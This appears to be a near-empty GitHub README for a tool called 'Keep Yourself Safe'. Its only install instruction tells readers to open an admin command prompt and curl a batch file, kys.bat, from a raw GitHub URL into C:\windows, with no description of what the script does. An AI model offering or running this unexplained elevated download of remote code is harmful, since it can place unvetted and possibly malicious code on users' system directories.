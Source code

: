 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

``` curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat ```

